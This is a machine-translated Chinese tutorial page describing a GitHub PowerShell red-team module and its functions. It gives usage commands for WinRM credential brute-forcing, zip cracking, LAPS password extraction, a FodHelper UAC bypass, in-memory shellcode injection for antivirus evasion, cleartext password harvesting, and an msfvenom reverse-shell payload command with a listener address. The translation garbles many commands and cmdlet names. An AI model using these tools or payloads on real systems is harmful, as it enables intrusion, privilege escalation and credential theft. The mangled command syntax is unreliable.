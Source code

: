 # PowerShell 红队:PowerShell 函数集合

> 原文：<https://kalilinuxtutorials.com/powershell-red-team/>

[![PowerShell Red Team : Collection Of PowerShell Functions](img/ea9b9ddd8e0a29b35863c575aca49e03.png "PowerShell Red Team : Collection Of PowerShell Functions")](https://1.bp.blogspot.com/-M0TLgf-kXjs/X6MLYOEO9HI/AAAAAAAAH7w/cVSA0jFMc1ogE2swt26eCzLhvQr3ANR3wCLcBGAsYHQ/s728/1%25281%2529.png)

一个**红队队员**可能使用的 **PowerShell** 函数集合来从一台机器上收集数据或获得对一个目标的访问权。我为 RedTeamEnum 模块中包含的命令添加了 ps1 文件。这将允许您轻松地找到并使用一个命令，如果这就是您想要的。如果您想要整个模块，请在将 RedTeamEnum 目录和内容下载到您的设备后执行以下操作。

C:\PS> robocopy。\ RedTeamEnum $ env:user profile \ Documents \ windows powershell \ Modules \ RedTeamEnum *
**#这将把模块复制到一个便于导入的位置。如果您使用 OneDrive sync，您可能需要使用**$ env:user profile \ one drive \ Documents \ windows powershell \ Modules \ RedTeamEnum。

C:\ PS>Import-Module-Name RedTeamEnum-Verbose
**#这将导入模块中的所有命令。**

C:\ PS>Get-Command-Module RedTeamEnum
**#这将列出模块中的所有命令。**

*   Convert-Base64.psm1 是一个名为 states 的函数，用于将文本编码和/或解码为 Base64 格式。

C:\PS> Convert-Base64 -Value "将我转换为 Base64！"**-编码**
C:\ PS>Convert-Base64-Value " q 29 udmvydcbtzsb 0 bybiyxnlnjqh "**-解码**

*   ps1 是一个将 SID 值转换成用户名并将用户名转换成 SID 值的函数

C:\ PS > Convert-SID-Username tobor
**#以上示例将 to bor 转换为其 SID 值**

C:\ PS>Convert-SID-SID S-1-5-21-2860287465-2011404039-792856344-500
**#以上值将 SID 值转换为其关联的用户名**

*   Test-BruteZipPassword 是一个函数，它使用一个密码文件使用 7zip 暴力破解一个受密码保护的 zip 文件

C:\ PS > Test-bruteforcezip password-PassFile ' C:\ Users \ USER \ Downloads \ Applications \ pass.txt '-Path ' C:\ Users \ USER \ Downloads \ Applications \ KiTTY.7z '-Zip exe ' C:\ Program Files \ 7-Zip \ 7z . exe '
**#此示例使用 pass . txt 文件中的密码来破解受密码保护的 kitty . 7z 文件**

*   Test-BruteForceCredentials 是一个使用 WinRM 暴力破解用户密码的函数。

' c:\ PS > Test-BruteForceCredentials-计算机名 DC01.domain.com-use SSL-用户名' admin '，' administrator '-Passwd ' password 123！'-sleep minutes 5
**#此示例将使用 WinRM over HTTPS 测试针对远程计算机 DC01.domain.com 上的 admin 和 administrator 用户定义的一个密码，每次尝试之间的时间间隔为 5 分钟**

C:\ PS>Test-BruteForceCredentials-computer name File.domain.com-user file C:\ Temp \ users.txt-PassFile C:\ Temp \ rockyou.txt
**#此示例将针对 users . txt 文件中的每个用户名测试 rock you . txt 中的每个密码，而不**

*   Get-LdapInfo 是一个我非常引以为豪的函数，用于执行一般的 LDAP 查询。虽然在输出中将只显示两个属性，但是通过管道连接到 Select-Object -Property *或使用-Detailed 开关参数，可以看到与对象关联的所有属性。

C:\ PS > Get-LdapInfo-Detailed-SPNNamedObjects
**#以上返回返回对象的所有属性**

C:\ PS>Get-LdapInfo-domain controllers | Select-Object-Property ' Name '，' ms-Mcs-ADM pwd '
**#如果以 admin 身份运行，它将返回本地管理帐户的 LAPS 密码**

C:\ PS>Get-LdapInfo-list users 如果您希望显示结果的所有属性，需要使用下面的格式

C:\ PS>Get-LDAP info-all servers | Where-Object-Property logon count-gt1 | Select-Object-Property *

*   Get-NetworkShareInfo 是一个 cmdlet，用于检索信息和/或强力发现远程或本地计算机上可用的网络共享

C:\ PS > Get-NetworkShareInfo-ShareName C$
**#以上示例返回本地机器上共享 C $的信息
#结果**
**名称:** C$
**安装日期:**
**描述:**默认共享
**路径:** C:\
**计算机名:** TOBORDESKTOP
**状态:【T21**

*   Test-PrivEsc 是一个函数，可用于发现 HTTP 上的 WSUS 更新是否易受 PrivEsc 攻击，明文凭据是否存储在公共位置，AlwaysInstallElevated 是否易受 PrivEsc 攻击，是否存在未加引号的服务路径，以及服务的可能弱写权限的枚举。

C:\PS> Test-PrivEsc

*   Get-InitialEnum 是一个枚举 Windows 操作系统基础的功能，有助于更好地显示可能的弱点。

C:\PS> Get-InitialEnum

*   Start-SimpleHTTPServer 是一个用于托管 HTTP 服务器以下载文件的函数。这意味着类似于 pythons 的 SimpleHTTPServer 模块。目录不能通过 web 服务器。发出此命令时，将要托管以供下载的文件将来自您所在的当前目录。

C:\ PS > Start-simple HTTP Server
**#在 8000 端口打开 HTTP 服务器**

**#或**

C:\ PS>Start-simple HTTP Server-Port 80
**#在 80 端口打开 HTTP 服务器**

*   Invoke-PortScan.ps1 是用于扫描目标上所有可能的 TCP 端口的函数。我将在未来通过包含 UDP 以及定义端口范围的能力来进行改进。老实说，这款甚至不值得使用，因为它非常慢。线程是我的一个弱项，我计划用这个来解决这个问题。

C:\PS >调用-端口扫描-IP 地址 192.168.0.1

*   Invoke-PingSweep 是用于执行子网范围的 ping 扫描的函数。

C:\ PS > Invoke-ping sweep-Subnet 192 . 168 . 1 . 0-Start 192-End 224-Source 单数
**#注意:Source 参数仅在 IP 源路由值为" Yes "**

C:\ PS>Invoke-ping sweep-Subnet 10 . 0 . 0 . 0-Start 1-End 20-Count 2
**# Count 的默认值为 1**

C:\PS > Invoke

*   Invoke-UseCreds 是我创建的一个函数，用于简化在 pen 测试期间使用获得的凭证的过程。我使用-Passwd 而不是-Password，因为参数在定义时应该配置为安全字符串，而在使用该函数向字段中输入值时却不是这样。设置该值后，它会被转换为安全字符串。

**#以下命令将使用输入的凭据打开 msf.exe 可执行文件，作为用户 to bor**
C:\ PS>Invoke-use creds-Username ' OsbornePro \ to bor '-Passwd ' P @ ss w0 rd 1 '-Path。\msf.exe -Verbose

*   Invoke-FodHelperBypass 是一个函数，它在执行提升特权之前测试 UAC 旁路是否有效。这当然需要由本地管理员组的成员来运行，因为这种绕过提升了您所在的 shell 的特权。您可以定义要运行的程序，该程序将允许您执行 generaate msfvenom 有效负载以及 cmd 或 powershell，或者只是发出命令。

C:\ PS > Invoke-FodHelperBypass-Program " powershell "-Verbose

#或

C:\ PS>Invoke-FodHelperBypass-Program " cmd/C MSF . exe "-Verbose

*   Invoke-InMemoryPayload 用于使用内存注入的 AV 规避。这将要求运行者使用类似于以下示例的命令生成 msfvenom 有效负载，并将“[Byte[]] $buf”变量输入 Invoke-InMemoryPayloads“ShellCode”参数。

**#生成有效载荷使用**
MSF venom-p windows/meter preter/shell _ reverse _ TCP LHOST = 192 . 168 . 137 . 129 LPORT = 1337-f powershell

*   启动一个侦听器，使用“ShellCode”参数中的值，并运行命令来获得您的 shell。这还要求不启用某些内存保护。注意:注意 ShellCode 变量的值没有任何双引号。这是因为它需要一个字节数组。

c:\ PS > Invoke-InMemoryPayload-有效负载 0xfc，0x48，0x83，0xe4，0xf0，0xe8，0xc0，0x0，0x0，0x0，0x41，0x51，0x41，0x5

![](img/04d3c1cefd737471a67a5fd562451bb0.png)

*   Get-ClearTextPassword 用于获取缓存的密码、注册表中的 SNMP 密码、自动登录密码和存储在设备上的 WiFi 密码。只能从保存的位置提取当前用户的密码

**Get-cleartext password-All**

上述命令返回 cmdlet 能够得到的所有可能的结果。也可以搜索单个位置。例如

**Get-cleartext password-auto logon**

例如，您可以在搜索中定义多个位置

**Get-cleartext password-WiFi-SNMP-Chrome-password vault**

[**Download**](https://github.com/tobor88/PowerShell-Red-Team)